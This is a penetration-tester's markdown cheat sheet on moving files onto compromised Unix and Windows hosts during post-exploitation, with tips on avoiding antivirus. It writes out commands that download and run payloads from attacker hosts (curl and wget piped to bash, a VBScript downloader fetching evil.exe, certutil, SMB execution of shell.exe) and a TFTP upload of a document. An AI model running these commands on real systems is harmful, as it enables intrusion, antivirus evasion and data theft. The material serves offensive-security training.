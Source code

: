 One of the biggest problem on this phase are **anti viruses**.
A great method to bypass this issue is to use legitimate administrative tools. Second problem is the non-interactive shell. We have to use non-interactive tools to achieve our goals to upload files it we do not have a full interactive shell.

## Hosting files

Files have to be hosted somewhere in order to be downloaded after. The most common places are:

- [HTTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#HTTP%20Server)
- [FTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#FTP%20Server)
- [SMB](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#SMB)

---

# Unix tools and methods

- **curl**
    
    ```bash
    curl 192.168.119.209/file.sh -o file.sh		# save file locally
    curl 192.168.119.209/file.sh | bash			# in memory execution
    ```
    
- **wget**
    
    ```bash
    wget 192.168.119.209/file.sh -O file.sh		# save file locally
    wget -O - 192.168.119.209/file.sh | bash	# in memory execution
    ```
    
- [netcat](../Tools/netcat.md#File%20transfer)
- **scripting languages**
- **scp**
- **pure-ftpd**
- **HTTP/HTTPS**

---

# Windows tools and methods

## FTP Script (`ftp -s`)

Server: [FTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#FTP%20Server)
Script:

```powershell
echo open 10.11.0.4 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```

Shell command:

```powershell
C:\Users\offsec> ftp -v -n -s:ftp.txt
```

## TFTP

[TFTP - Trivial File Transfer Protocol](../Services/TFTP%20-%20Trivial%20File%20Transfer%20Protocol.md) is a UDP based file transfer protocol, often restricted by egress firewall rules. Old version of Windows (up to XP and 2003) contains it as default.
Server: [TFTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#TFTP)
Client:

```powershell
C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx
Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s

C:\Users\Offsec> tftp -i 10.11.0.4 get important.docx
Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s
```

## VB Script (`cscript wget.vbs`)

Copy-Paste sequence:

```visual-basic
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Shell command:

```powershell
C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```

## Powershell
[File Transfer](../Dev,%20scripting%20&%20OS/Powershell%20for%20pentesters.md#File%20Transfer) using built-in Powershell features

## Assembling disassembled binary (`exe2hex` and `exe2bat`)

Disassembling the original program:

```bash
kali@kali:~$ upx -9 nc.exe
	Ultimate Packer for eXecutables
	Copyright (C) 1996 - 2018
	UPX 3.95 Markus Oberhumer, Laszlo Molnar & John Reiser Aug 26th 2018
	File size Ratio Format Name
	-------------------- ------ ----------- -----------
	59392 -> 29696 50.00% win32/pe nc.exe
Packed 1 file.
kali@kali:~$ exe2hex -x nc.exe -p nc.cmd
[*] exe2hex v1.5.1
[+] Successfully wrote (PoSh) nc.cmd

# Legacy
root@kali:~$ locate exe2bat
root@kali:~$ wine /usr/share/windows-binaries/exe2bat nc.exe nc_legacy.cmd
```

Re-building the program:

```bash
# Incollo i comandi ottenuti con exe2hex

# incollo i comandi ottenuti con exe2bat
debug <123.hex
```

## SMB

Server: [SMB ](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#SMB)
Client:

```powershell
C:> net view \\AttackerIP   // Our designated share name should be visible in the output
C:> dir \\AttackerIP\transfer_share
C:> copy \\AttackerIP\transfer_share\shell.exe
C:> \\AttackerIP\transfer_share\shell.exe

# Mounting authenticated shares
PS C:\Program Files (x86)\StorageService> net use \\192.168.119.209 /user:maoutis Qwerty
The command completed successfully.

PS C:\Program Files (x86)\StorageService> net use \\192.168.119.209 /delete
\\192.168.119.209 was deleted successfully.
```

## certutil

```powershell
certutil -urlcache -split -f http://AttackerIP/file C:\path\to\out\file
```

---

# External References:

- [https://github.com/LOLBAS-Project/LOLBAS](https://github.com/LOLBAS-Project/LOLBAS)